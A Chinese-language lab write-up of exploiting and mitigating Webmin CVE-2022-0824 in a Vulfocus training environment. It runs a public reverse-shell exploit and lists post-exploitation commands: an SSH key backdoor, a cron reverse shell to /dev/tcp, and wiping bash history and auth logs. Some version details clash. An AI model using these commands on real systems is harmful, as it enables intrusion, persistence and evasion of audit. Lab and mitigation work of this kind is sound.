



# Webmin CVE-2022-0824漏洞详细攻击过程与缓解（秦鹏业）
## 一、漏洞描述
1、Webmin及Webmin CVE-2022-0824漏洞介绍
* Webmin是一个基于网页的Unix/Linux系统管理工具，就像是一个"网页版的控制面板"。管理员可以通过浏览器来管理服务器，比如创建用户、设置防火墙、管理文件等，而不需要直接登录命令行。
* CVE-2022-0824漏洞是Webmin中的一个严重安全问题，存在于1.990版本之前。Webmin 的 rpc.cgi 接口由于认证缺失，允许远程攻击者通过构造请求执行任意系统命令，导致严重远程控制风险。简单来说，这个漏洞允许攻击者通过Webmin的文件管理功能上传恶意脚本，然后通过修改权限执行这个脚本，从而完全控制服务器。

2、漏洞为什么危险？
* 远程代码执行（RCE）：攻击者可上传并执行任意恶意脚本，完全控制目标服务器。

* 权限提升（Privilege Escalation）：即使低权限用户也能利用该漏洞获取 root 权限。

* 利用门槛低：已有公开的自动化攻击工具（如 Webmin-revshell.py），攻击者无需复杂技术即可实施攻击。

* 隐蔽性强：攻击流量与正常 Webmin 操作相似，难以被安全设备检测。

* 影响范围广：大量未升级的 Webmin 服务器暴露在公网，易成为攻击目标。
## 二、漏洞复现及利用
* 1、**漏洞环境搭建**：
在 Vulfocus 平台选择镜像：
`vulfocus/webmin_cve-2022-0824:latest`。启动后，查看分配的端口，访问地址为：`http://192.168.56.121:18942`

  

* 2、**下载漏洞利用脚本：**
在 Kali 上打开终端，使用 wget 下载 下载漏洞利用脚本POC 脚本,该脚本将自动上传 payload 并发起反弹连接：
`wget https://raw.githubusercontent.com/faisalfs10x/Webmin-CVE-2022-0824-revshell/main/Webmin-revshell.py`

  
* 3、**开启监听端口（反弹 Shell）**
在 Kali 中打开一个新的终端，输入：`nc -lvnp 4444`监听来自靶机的反向连接，等待 Shell。

* 4、**运行漏洞利用脚本**：
    ```bash
    python3 Webmin-revshell.py /
    -t http://192.168.56.121:18942 /
    -c root:password /
    -LS 192.168.56.121:9090 /
    -L 192.168.56.121 /
    -P 4444

    ```
* 5、**获取到反弹shell**：并获得flag

   

* 6、**获取反弹 Shell 后的可进行的渗透操作**

    * 建立 SSH 后门，实现权限维持：SSH 公钥认证机制不依赖用户名和密码，只需目标机器保存攻击者的公钥，即可通过匹配的私钥直接登录，具有更高的隐蔽性和稳定性。**将自己的 SSH 公钥写入目标系统的 ~/.ssh/authorized_keys 文件中，从而实现不依赖密码的远程登录控制：**
        ```bash   
        mkdir -p /root/.ssh
        echo "攻击者公钥" >> /root/.ssh/authorized_keys
        chmod 600 /root/.ssh/authorized_keys
        ```

    * 设置反弹 Shell 自启动，实现持久控制：Linux 的 cron 系统可以配置在每次系统启动时执行脚本。将反弹 Shell 命令植入系统计划任务或启动项，**实现每次重启自动连接回攻击者主机：**

      `echo "@reboot bash -i >& /dev/tcp/192.168.56.121/4444 0>&1" >> /etc/crontab`
    * 横向移动：内网主机扫描与 SSH 横跳，攻击者在获取目标系统后，可通过局域网扫描**寻找其他存活主机**，并尝试使用泄露或弱口令进行 SSH 登录，进一步扩大控制面。
    * （5）**清理痕迹**:防止检测与追踪，攻击者清除登录记录、历史命令等，以规避管理员审计和取证：
       ``` bash
        > ~/.bash_history
        > /var/log/auth.log
       ```
## 三、漏洞修复

### 1、在vulfocus镜像中尝试升级webmin版本（未成功）
该漏洞为 Webmin 在版本 1.984 及以下中存在的未授权远程命令执行漏洞，可通过访问 /rpc.cgi 接口并传入构造参数，远程执行任意命令，实现反弹 Shell。
在完成漏洞利用并成功获取 Shell 后，我尝试通过升级 Webmin 到最新版本以验证漏洞是否已修复。

升级 Webmin：

 ```bash
    wget http://prdownloads.sourceforge.net/webadmin/webmin_2.401_all.deb
    dpkg -i webmin_2.401_all.deb
```
    
可以看到 Webmin 已经升级为  2.401，为漏洞修复版本


重新进行攻击，但是发现还是可以取得反弹shell说明修复并未成功


进入`cd /usr/share/webmin`文件夹，发现仍然包含仍保留 rpc.cgi 模块及 proc 后门接口，意味着漏洞仍在。

 
 
**Vulfocus中的Webmin靶场镜像虽然显示版本号为2.401，但实际上可能仍运行着基于老版本（如1.984）的漏洞代码，这是因为靶场为了保留漏洞便于教学和演练，故意“伪造”版本号以误导判断，版本号只是一个标识，不能代表代码的真实安全状态。**


###  2、在真实kali虚拟机环境中安装更高版本Webmin，测试是否存在漏洞、
* 安装Webmin、
    ```
    wget https://www.webmin.com/download/deb/webmin-current.deb
    sudo apt install -y ./webmin-current.deb
    ```
* 检查webmion是否启动成功：` sudo systemctl status webmin`
  
   

* 访问webmin：`http://192.168.56.102:10000`，确认安装的为2.401高版本

  

* 重新进行监听和攻击，攻击指令需要略做修改;可以看到无法获取到反弹shell。
   
    ```bash
    python3 Webmin-revshell.py /
    -t http://192.168.56.121:10000 /
    -c kali:kali /
    -LS 192.168.56.123:9090 /
    -L 192.168.56.123 /
    -P 4444

    ```
   
    

### 3、配置防火墙规则：
* 只允许本地访问 Webmin（阻断外部攻击）
`iptables -A INPUT -p tcp --dport 10000 ! -s 127.0.0.1 -j DROP`

    * --dport 10000：Webmin 默认端口

    * ! -s 127.0.0.1：不是来自本地的流量

    * -j DROP：丢弃

* 只允许指定IP访问：
    ```bash
    iptables -A INPUT -p tcp --dport 10000 -s 192.168.56.121 -j ACCEPT
    iptables -A INPUT -p tcp --dport 10000 -j DROP
    ```
 192.168.56.121 是管理机 IP（Vulfocus控制台所在的主机）


 **但是实际上在vulfocus容器中无法配置防火墙，因为很多 Vulfocus 镜像是精简构建的，仅用于教学演示，没有安装 iptables 或核心模块；即使安装了，也因非特权容器，无法操作 Netfilter；修改 iptables 无法生效，提示“Operation not permitted”或者规则添加后也不生效。**
### 4、删除或重命名 rpc.cgi 文件


该漏洞的本质是 Webmin 未对 rpc.cgi 接口参数进行有效权限校验，攻击者可构造恶意 POST 请求执行任意命令，造成远程控制风险。可以采用删除漏洞触发接口文件 rpc.cgi 的方式进行应急加固。
* 进入 Webmin 安装目录，确认 rpc.cgi 存在：
  ```bash
  cd /usr/share/webmin/
  ls -l rpc.cgi

  ```
  
   
* 为防止被漏洞利用，删除或重命名漏洞接口文件：
  ```bash
    # 直接删除该 CGI 文件：
    rm rpc.cgi
    # 或通过重命名保留备份：
    mv rpc.cgi rpc.cgi.bak
  ```
  
   

* 重新使用前面的方法进行攻击，发现此时没有出现反弹shell，说明漏洞已经被缓解，但是由于是在vulfocus环境下，重启镜像后还是会恢复原来的状态，因此无法通过此方法根除漏洞。

  

 ## 参考链接：
[1][Webmin 远程代码执行Getshell漏洞复现 编号：CVE-2022-0824](https://blog.csdn.net/heartsk/article/details/126621266)

[2][webmin下载和安装](https://webmin.com/download/)

[3][Vulfocus练习之Webmin远程代码执行(CVE-2022-0824）](https://blog.csdn.net/weixin_45701865/article/details/134966160)
